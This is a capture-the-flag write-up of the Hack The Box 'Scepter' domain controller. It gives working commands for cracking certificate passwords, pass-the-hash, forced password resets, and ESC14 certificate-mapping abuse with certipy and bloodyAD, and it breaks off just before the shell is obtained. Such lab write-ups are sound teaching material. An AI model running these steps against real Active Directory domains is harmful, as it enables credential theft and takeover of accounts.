This box is rated hard difficulty on HTB. It involves us discovering a private key and certificate in an NFS export that can be used to get a user's NTLM hash, leading to another account takeover via their _ForceChangePassword_ permissions. Enumerating LDAP reveals a weak `X509:<RFC822>` mapping for another user's _altSecurityIdentities_ attribute. Abusing our permissions over the Staff Access Certificate OU to get _GenericAll_ on another account enables us to change the mail attribute and request a certificate as a higher-privileged user. This user can then change the _altSecurityIdentities_ attribute of another high-profile target, allowing us to repeat the previous steps and takeover the new account. Finally, we can abuse this user's membership in the Replication Operators group to perform a DCSync attack, dumping all domain hashes.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p53,88,111,135,139,389,445,464,593,636,2049,3268,3269,5985,5986,9389 -sCV 10.129.244.44 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-08 19:51 -0400
Nmap scan report for 10.129.244.44
Host is up (0.054s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-09 07:51:11Z)
111/tcp  open  rpcbind?
|_rpcinfo: ERROR: Script execution failed (use -d to debug)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-09T07:52:12+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-09T07:52:12+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
2049/tcp open  mountd        1-3 (RPC #100005)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-09T07:52:13+00:00; +7h59m57s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
|_ssl-date: 2026-05-09T07:52:12+00:00; +7h59m56s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/wsmans?
|_ssl-date: 2026-05-09T07:52:12+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T00:21:41
|_Not valid after:  2025-11-01T00:41:41
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m56s, deviation: 0s, median: 7h59m55s
| smb2-time: 
|   date: 2026-05-09T07:52:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.16 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC01.SCEPTER.HTB` which I add to my `/etc/hosts` file. Since there are no web servers present, I'll focus mainly on SMB, LDAP, and NFS to gather information initially.

## Service Enumeration
Testing out SMB and RPC for Null/Guest authentication both fail and LDAP has anonymous binds disabled as well.

```
└─$ ldapsearch -x -H ldap://dc01.scepter.htb -b "dc=MEGACORP,dc=LOCAL" -s base "(objectClass=user)"

└─$ nxc smb dc01.scepter.htb -u 'Guest' -p ''

└─$ rpcclient dc01.scepter.htb -U ''%''
```



### NFS Export
Since there is an NFS server running, I check to see if any directories have been exported and are available to us which reveals one for `/helpdesk`. We can mount this to our file system and take a look around.

```
└─$ showmount -e dc01.scepter.htb

└─$ sudo su                      

└─# mkdir -p /mnt/nfs_share                      

└─# mount 10.129.244.44:/helpdesk /mnt/nfs_share 

└─# ls /mnt/nfs_share
```



### Getting Domain Credentials
Inside are a few certificate files for various users on the domain. These are required to be password-protected, however in my experience, most people don't bother to put anything complex. We can convert the PFX files into a crackable format with a tool like [pfx2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/pfx2john.py) and send it over to Hashcat or JohnTheRipper.

```
└─$ pfx2john clark.pfx > clarkhash

└─$ pfx2john lewis.pfx > lewishash

└─$ pfx2john scott.pfx > scotthash

└─$ john lewishash --wordlist=/opt/seclists/rockyou.txt

└─$ john scotthash--wordlist=/opt/seclists/rockyou.txt

└─$ john clarkhash --wordlist=/opt/seclists/rockyou.txt
```



Looks like they all use the same weak password. We can now use [Certipy-AD](https://github.com/ly4k/Certipy) to authenticate to the Domain Controller and get an NTLM hash for any of the valid certs. Attempting to do so with the three PFX files and our recovered password all fail, returning an error saying that the client is not trusted.

```
└─$ certipy-ad auth -pfx lewis.pfx -password newpassword -dc-ip 10.129.244.44

└─$ certipy-ad auth -pfx scott.pfx -password newpassword -dc-ip 10.129.244.44

└─$ certipy-ad auth -pfx clark.pfx -password newpassword -dc-ip 10.129.244.44
```



If you're unfamiliar with certificate authentication - In Active Directory environments that support PKINIT, a .pfx contains a user or machine certificate plus its private key, allowing the client to prove possession of that key instead of sending a password during the initial Kerberos AS-REQ. The domain controller validates the certificate chain and maps the certificate to an AD identity (for example via UPN or SID), then issues a Ticket Granting Ticket if the certificate is trusted and authorized. From there, Kerberos works normally-the certificate is only used for the initial authentication step.

This means we can create our own PFX with the files for Baker in the helpdesk mount. I'll use OpenSSL to combine them into the needed format and provide the password cracked from the other certificates to successfully do so.

```
└─$ openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt      
Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```

Because we're dealing with Kerberos here, I sync my machine's time with the Domain Controller's to prevent any clock skew errors from arising. VMWare likes to override my time configurations, so I usually just stop both time-related daemons whenever doing these types of exploits.

```
--Stopping my machine's timsyncd processes--
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
$ sudo rdate -n dc01.scepter.htb
```

Now we can rerun the Certipy-AD auth command which works to grab the NTLM hash for D.Baker this time.



Using this in a Pass-The-Hash attack now lets us authenticate to the domain, which reveals zero non-standard SMB shares and no access to get a shell over WinRM.



### Mapping AD via BloodHound
With limited access to services and not much to go off of, I use start mapping the domain with BloodHound and use [Bloodhound-Python](https://github.com/dirkjanm/bloodhound.py) to gather the data since we don't have shell access to use SharpHound.

```
└─$ bloodhound-python -c all --hashes ':18b5fb0d99e7a475316213c15b6f22ce' -u 'd.baker' -d 'scepter.htb' -ns 10.129.244.44

└─$ sudo bloodhound
```



### Changing User Password
Checking which outbound object controls our current user has reveals that we have _ForceChangePassword_ permissions over another user named A.Carter.



I'll use the net module from [PTH-Toolkit](https://github.com/byt3bl33d3r/pth-toolkit) to change this from my Kali machine to something simple.

```
└─$ pth-net rpc password 'A.Carter' 'Password123!' -U 'scepter.htb'/'d.baker'%'aad3b435b51404eeaad3b435b51404ee':'18b5fb0d99e7a475316213c15b6f22ce' -S 'dc01.scepter.htb'
```



### Unable to use ESC9
Repeating the same BloodHound enumeration process for this new user shows that we are apart of the IT Support group, which has _GenericAll_ permissions of the Staff Access Certificate Organization Unit (OU).



We already know that Active Directory Certificate Services is installed on the domain, so I use Certipy-AD once again to discover any vulnerable certificate templates. Nothing comes from using A.Carter's account, however reverting to D.Baker's hash shows that the StaffAccessCertificate template has no security extension and is vulnerable to ESC9.

```
└─$ certipy-ad find -target dc01.scepter.htb -u 'd.baker' -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -dc-ip 10.129.244.44 -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 36 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 6FF5E01ECE1FEDB74BFC66CF337AA8A9
    Certificate Validity Start          : 2025-11-07 18:50:26+00:00
    Certificate Validity End            : 2062-11-07 19:00:26+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectRequireEmail
    Enrollment Flag                     : AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-01T02:29:00+00:00
    Template Last Modified              : 2024-11-01T09:00:54+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
      Object Control Permissions
        Owner                           : SCEPTER.HTB\Enterprise Admins
        Full Control Principals         : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Owner Principals          : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SCEPTER.HTB\staff
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

If you're unfamiliar with this attack vector - ESC9 is an Active Directory Certificate Services misconfiguration where a certificate template is configured without the requester's SID security extension, causing domain controllers to rely on weaker identity mapping such as UPN-based mapping. An attacker who can enroll in that template and modify an account's userPrincipalName can temporarily set it to a privileged user (for example, Administrator), request a certificate, then authenticate via PKINIT as that privileged account and obtain Kerberos credentials-effectively escalating privileges to domain admin.

For more information on the ESC techniques and this misconfiguration in particular, check out the [Certipy Wiki page](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template).

Unfortunately for us, a few of the requirements to perform this attack is that the User Principal Name (UPN) must be included in the Alternate Subject Name (ASN) as well as the email shouldn't be in either the subject name or ASN. I only figured this out in the post-exploitation phase, but when an exploit we're sure of doesn't work after plenty of tries, it's better to move on.

## Exploitation

### Discovering Weak Mapping
BloodHound didn't reveal anything else too crazy and we still didn't have a shell to enumerate the filesystem, so I take a look at each account's attributes via LDAP queries.

```
└─$ nxc ldap dc01.scepter.htb -u 'a.carter' -p 'Password123!' --query "(sAMAccountName=h.brown)" ""
```



This reveals an unfamiliar attribute for the H.Brown user that intrigued me because none of the others had it assigned. Googling about it shows that it's a type of security mapping used to associate certificates with users. It's also stated that the use of X509:<RFC822> is considered weak as it relies on user-related identifiers.



Essentially, if we control another (potentially higher-privileged) account to have the mail attribute set to h.brown@scepter.htb , we can impersonate them. 

### ESC14
Since A.Carter has _GenericAll_ over the Staff Access Certificate OU and D.Baker is apart of it, we can give ourselves _FullControl_ over the OU using a tool like [BloodyAD](https://github.com/CravateRouge/bloodyAD), and therefore D.Baker. From there we can change the mail attribute to match H.Brown and impersonate them via requesting a certificate. This is also a technique known as [ESC14](https://docs.specterops.io/ghostpack-docs/Certify.wik-mdx/esc14-explicit-certificate-mapping).

```
└─$ bloodyAD --host dc01.scepter.htb -d 'scepter.htb' -u 'A.Carter' -p 'Password123!' add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB

└─$ bloodyAD --host dc01.scepter.htb -d 'scepter.htb' -u 'A.Carter' -p 'Password123!' set object d.baker mail -v 'h.brown@scepter.htb'
[+] d.baker's mail has been updated

└─$ certipy-ad req -u d.baker@scepter.htb -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip 10.129.244.44
```



This gives us a PFX file for the D.Baker user except its email matches H.Brown's, so when we authenticate with it, the DC will think that we are that user. Certipy will take care of grabbing a TGT and resolving an NTLM hash which can be used to login via WinRM since this account is apart of the Remote Management group.

```
└─$ certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.129.244.44 -username h.brown
```



### Initial Foothold
After grabbing the hash, authenticating with it prompts an account restriction error. This is because H.Brown is also in the Protected Users group which disables NTLM authentication, among other things.




This isn't too terrible as we can generate a krb5.conf file to properly configure Kerberos on our machine and then use the .ccache file generated from our earlier Certipy command to grab a shell that way. 

```
